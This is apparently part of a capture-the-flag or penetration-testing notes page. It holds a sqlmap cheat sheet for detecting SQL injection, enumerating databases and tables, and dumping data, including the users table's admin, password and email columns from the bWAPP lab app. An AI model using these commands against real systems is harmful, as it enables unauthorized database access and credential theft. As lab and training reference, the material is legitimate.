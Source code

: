 <details><summary>🚩 Final Flag</summary></details>

## Other Notes

#### Check if injection exists

```bash
sqlmap -r <REQUEST_FILE> -p <POST_PARAMETER>
sqlmap -r Post.req

sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title

sqlmap -u "http://10.10.10.10/file.php?id=1" -p id          #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"      #POST Method
```

#### **Get database if injection Exists**

```bash
sqlmap -r login.req --dbs
sqlmap -u "http://10.10.10.10/file.php?id=1" --dbs    #determine the databases:
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs    #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs #POST Method

# List databases
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title --dbs
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP --tables
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users --columns
sqlmap -u "http://<TARGET_IP>/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump
```

**Get Tables in a Database**

```bash
sqlmap -r login.req -D dbname --tables    #determine the tables:
sqlmap -u "http://10.10.10.10/file.php?id=1" -D dbname --common-tables    #if tables not available, guess tables using common names
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables        #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables #POST Method
```

**Get data in a Database tables**

```bash
sqlmap -r login.req -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump      #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump   #POST Method
```
